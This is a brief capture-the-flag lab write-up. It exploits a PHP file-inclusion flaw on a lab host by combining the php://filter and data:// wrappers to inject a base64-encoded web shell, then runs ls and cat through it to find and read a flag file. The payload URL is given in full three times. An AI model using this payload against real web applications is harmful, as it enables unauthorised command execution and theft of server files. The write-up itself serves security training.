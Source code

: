 ### Practical
---

Let's use this payload to receive the contents of the current directory:

```
http://10.10.172.219/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls
```

![Pasted image 20250506162110.png](../../../IMAGES/Pasted%20image%2020250506162110.png)

We got a flags directory, we can see the contents of it using:

```
http://10.10.172.219/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls%20-la%20flags
```

![Pasted image 20250506162437.png](../../../IMAGES/Pasted%20image%2020250506162437.png)

We can see the file, let's read it:

```
http://10.10.172.219/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=cat%20flags%2Fcd3c67e5079de2700af6cea0a405f9cc.txt
```

![Pasted image 20250506162524.png](../../../IMAGES/Pasted%20image%2020250506162524.png)

There we go, we got our flag:
